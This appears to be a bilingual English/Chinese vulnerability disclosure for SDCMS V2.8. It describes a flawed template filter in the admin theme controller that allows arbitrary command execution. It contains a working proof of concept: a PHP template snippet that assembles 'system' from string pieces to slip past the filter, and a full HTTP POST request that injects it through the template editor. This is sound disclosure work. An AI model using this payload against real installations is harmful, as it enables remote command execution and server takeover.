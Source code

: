 # SDCMS V2.8 commnd execution
*SDCMS V2.8命令执行*
## Environment
*环境*

V2.8
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009135524.png)
https://www.sdcms.cn/cms.html
## Analysis
*分析*

There is a hidden danger in the security filtering method of template content in app\\admin\\controller\\theme.php, which can cause arbitrary command execution through code injection.

*\\app\\admin\\controller\\theme.php中对模板内容安全过滤方式存在隐患，可通过代码注入造成任意命令执行*

![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141106.png)

![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141146.png)
## Verify
*证明*

In the backend template plugin ->template management, add code.

*在后台模板插件->模板管理，添加代码*
```php
{php $a='s'.'yst'.'em'; $b='dir'; $a($b);}
```
You can bypass code security verification and execute commands.

*即可绕过代码安全校验，实现命令执行*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141545.png)
Successfully saved

*成功保存*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141715.png)
```http
POST /?m=admin&c=theme&a=edit&root=ZTE3MWlQeSt1STBoNzM1WHJ5L05JYjBsZktMZU1HUHB1ZUtxRDBrWWZMMnZxcmY4Z0FPMmZtdmNuV3M= HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1908
Origin: http://localhost
Connection: close
Referer: http://localhost/?m=admin&c=theme&a=edit&root=ZTE3MWlQeSt1STBoNzM1WHJ5L05JYjBsZktMZU1HUHB1ZUtxRDBrWWZMMnZxcmY4Z0FPMmZtdmNuV3M%3D
Cookie: iconSize=16x16; jenkins-timestamper-offset=-28800000; PHPSESSID=fv6b5117hu9kv7fbepjs9ie1n2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORM
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

file=2020%2Fcity.php&t0=OTMzZDIrVkJDWUZkTzVZYm1LRFNxei9OSTVFWlZZTGlCZmh2ajI3NUFkQzZ1aDJNaEhMZFhaTXM5U1U%3D&t1=%E5%9F%8E%E5%B8%82%E5%88%86%E7%AB%99&t2=%7Bphp+%24self_name%3D'%E5%9F%8E%E5%B8%82%E5%88%86%E7%AB%99'%7D%0D%0A%7Bphp+%24self_ename%3D'city'%7D%0D%0A%7Bphp+%24position%3D%5B%5B'name'%3D%3E%24self_name%2C'url'%3D%3ETHIS_LOCAL%5D%5D%7D%0D%0A%7Binclude+file%3D%22include%2Ftop.php%22%7D%0D%0A%3Ctitle%3E%7B%24self_name%7D_%7Bsdcms%5Bweb_name%5D%7D%3C%2Ftitle%3E%0D%0A%3Cmeta+name%3D%22keywords%22+content%3D%22%7Bsdcms%5Bseo_key%5D%7D%22%3E%0D%0A%3Cmeta+name%3D%22description%22+content%3D%22%7Bsdcms%5Bseo_desc%5D%7D%22%3E%0D%0A%3C%2Fhead%3E%0D%0A%0D%0A%3Cbody%3E%0D%0A{php+$a='s'.'yst'.'em';+$b='dir';+$a($b);}%0D%0A%09%7Binclude+file%3D%22include%2Fhead.php%22%7D%0D%0A%09%7Binclude+file%3D%22include%2Fbanner_inner.php%22%7D%0D%0A%0D%0A%09%3Cdiv+class%3D%22container%22%3E%0D%0A%09%09%3Cdiv+class%3D%22width+ui-row%22%3E%0D%0A%09%09%09%3Cdiv+class%3D%22container-left%22%3E%0D%0A%09%09%09%09%3Cdiv+class%3D%22ui-fixed-s%22+data-parent%3D%22.container%22%3E%0D%0A%09%09%09%09%09%7Binclude+file%3D%22include%2Fleft_nav.php%22%7D%0D%0A%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%0D%0A%09%09%09%3Cdiv+class%3D%22container-right%22%3E%0D%0A%09%09%09%0D%0A%09%09%09%09%3Cdiv+class%3D%22ui-box%22%3E%0D%0A%09%09%09%09%09%3Cdiv+class%3D%22ui-box-h2%22%3E%7B%24self_name%7D%3C%2Fdiv%3E%0D%0A%09%09%09%09%09%3Cdiv+class%3D%22ui-box-body%22%3E%0D%0A%09%09%09%09%09%09%3C!--begin--%3E%0D%0A%09%09%09%09%09%09%7Binclude+file%3D%22include%2Fcity.php%22%7D%0D%0A%09%09%09%09%09%09%3C!--over--%3E%0D%0A%09%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%0D%0A%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%3C%2Fdiv%3E%0D%0A%09%3C%2Fdiv%3E%0D%0A%09%0D%0A%09%7Binclude+file%3D%22include%2Ffoot.php%22%7D%0D%0A%0D%0A%3C%2Fbody%3E%0D%0A%3C%2Fhtml%3E&token=b3b54c27848b1a21c0e3773559fccfe0
```
Visit vulnerability page.

*访问漏洞页面*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141812.png)